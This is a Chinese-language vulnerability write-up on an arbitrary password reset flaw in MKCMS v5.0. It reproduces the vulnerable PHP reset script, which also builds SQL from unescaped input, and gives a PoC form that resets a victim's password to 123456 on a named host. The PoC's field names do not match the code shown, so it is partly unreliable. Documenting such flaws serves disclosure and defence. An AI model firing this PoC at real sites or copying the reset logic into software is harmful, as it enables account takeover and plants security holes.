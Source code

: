 ```yaml
---
title: "MKCMS v5.0 任意密码重置漏洞"
id: zhfly3023
---
```


# MKCMS v5.0 任意密码重置漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v5.0

## 三、复现过程

漏洞出现在`/ucenter/repass.php`第1-44行:

```
<?php 
include('../system/inc.php');
if(isset($_SESSION['user_name'])){
header('location:index.php');
};

if(isset($_POST[‘submit’])){

$username = stripslashes(trim($_POST[‘name’]));

$email = trim($_POST[‘email’]);

// 检测用户名是否存在

$query = mysql_query(“select u_id from mkcms_user where u_name=’$username’ and u_email=’$email’”);

if(!! $row = mysql_fetch_array($query)){

$_data[‘u_password’] = md5(123456);

$sql = ‘update mkcms_user set ‘.arrtoupdate($_data).’ where u_name="’.$username.’"’;

if (mysql_query($sql)) {

$token =$row[‘u_question’];

include(“emailconfig.php”);

//创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.

$smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true);

$smtp->debug = false;

$mailType = “HTML”; //信件类型，文本:text；网页：HTML

$email = $email;  //收件人邮箱

$emailTitle = “”.$mkcms_name.“用户找回密码”; //邮件主题

$emailBody = “亲爱的”.$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style=‘text-align:right’>-------- “.$mkcms_name.” 敬上</p>";

```
// sendmail方法
// 参数1是收件人邮箱
// 参数2是发件人邮箱
// 参数3是主题（标题）
// 参数4是邮件主题（标题）
// 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
$rs = $smtp-&gt;sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType); 
```

if($rs==true){

echo ‘<script>alert(“请登录到您的邮箱查看您的密码！”);window.history.go(-1);</script>’;

}else{

echo “找回密码失败”;

}

}

}

} `?>` 
```

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![image](../img/d8d434b3a5337128ea31471f40ff69d1.png)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://v.micool.top/ucenter/repass.php" method="POST">
      <input type="hidden" name="u&#95;name" value="lduo123" />
      <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>                         
  </body>
</html> 
```

## 参考链接

> https://xz.aliyun.com/t/4189#toc-1

> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html